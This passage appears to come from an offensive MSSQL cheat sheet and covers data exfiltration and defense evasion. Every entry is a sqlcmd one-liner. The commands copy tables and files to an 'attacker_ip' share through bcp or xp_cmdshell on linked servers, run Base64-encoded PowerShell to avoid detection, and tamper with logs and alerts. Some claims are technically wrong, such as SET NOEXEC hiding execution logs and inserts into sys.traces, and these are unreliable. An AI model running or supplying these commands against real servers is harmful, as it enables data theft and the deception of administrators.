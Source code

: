 #### 12.3 Use Linked Server for Data Exfiltration
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC ('bcp ''SELECT * FROM sensitive_table'' queryout \\\\attacker_ip\\share\\sensitive_data.txt -c -T') AT [linked_server];"
  ```
  Use `bcp` (Bulk Copy Program) on a linked server to exfiltrate data to an attacker-controlled share.

## 13. Defense Evasion

#### 13.1 Obfuscate SQL Commands
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'powershell -enc <Base64EncodedCommand>';"
  ```
  Encode PowerShell commands in Base64 to evade detection when executed via `xp_cmdshell`.

#### 13.2 Hide MSSQL Command Execution
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SET NOEXEC ON; EXEC xp_cmdshell 'whoami'; SET NOEXEC OFF;"
  ```
  Temporarily disable execution logging by using `SET NOEXEC ON` before running commands.

#### 13.3 Spoof MSSQL Logs
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_cycle_errorlog; INSERT INTO sys.traces (event, data) VALUES (4, 'Backup complete');"
  ```
  Manipulate SQL Server logs to insert misleading events, thereby confusing defenders.

#### 13.4 Disable SQL Server Alerts
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_add_alert @name = 'AttackAlert', @message_id = 50000, @enabled = 0;"
  ```
  Disable or modify SQL Server alerts that could notify administrators of suspicious activities.

## 14. Data Exfiltration

#### 14.1 Exfiltration via SQL Server Linked Servers
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC ('xp_cmdshell ''copy C:\\SensitiveData.txt \\\\attacker_ip\\share\\SensitiveData.txt''') AT [linked_server];"
  ```
  Copy sensitive data from the SQL Server to an attacker-controlled share using linked servers.
